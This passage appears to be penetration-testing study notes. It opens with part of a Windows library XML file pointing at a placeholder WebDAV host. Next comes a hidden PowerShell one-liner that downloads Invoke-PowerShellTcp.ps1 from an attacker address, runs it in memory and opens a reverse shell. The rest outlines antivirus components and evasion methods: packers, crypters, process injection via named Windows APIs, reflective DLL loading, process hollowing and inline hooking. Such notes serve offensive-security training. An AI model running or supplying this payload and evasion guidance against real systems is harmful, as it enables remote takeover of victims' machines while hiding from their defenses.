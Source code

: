 ```xml
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[WebDAV_IP]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- PowerShell ShortCut Payload
```powershell
powershell.exe -nop -w hidden -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]
```
# AV Evasion
### AV Engines and Components
- File Engine
- Memory Engine
- Network Engine
- Disassembler
- Emulator/Sandbox
- Browser Plugin
- Machine Learning Engine
### Evasion Techniques
- <mark>On-Disk</mark>:
	- `packers`: originally designed to reduce the size of an executable. packers generate an executable that is not only smaller, but is also functionally equivalent with a completely new binary structure.
	- `Obfuscators`: replacing instructions with semantically equivalent ones, inserting irrelevant instructions or dead code, splitting or reordering functions, and so on.
	- `Crypter`: cryptographically alters executable code, adding a decryption stub that restores the original code upon execution.
		- foundational in modern malware as one of the most effective AV evasion techniques.
- <mark>In-Memory</mark>:
	- `Remote Process Memory Injection`: 
		- Inject the payload into another valid PE that is not malicious by leveraging a set of Windows APIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread`.
	- `Reflective DLL Injection`: 
		- Load a DLL stored by the attacker in the process memory.
		- Main challenge:
			- LoadLibrary does not support loading a DLL from memory. 
			- Windows operating system does not expose any APIs that can handle this either. So, attackers must write their own version of the API.
	- `Process Hollowing`: 
		- Launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from memory and replaced with a malicious executable image. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.
	- `Inline hooking`:
		- Involves modifying memory and introducing a hook into a function to make it point to our malicious code. 
		- Upon executing our malicious code, the flow will return back to the modified function and resume execution, appearing as if only the original code had executed.
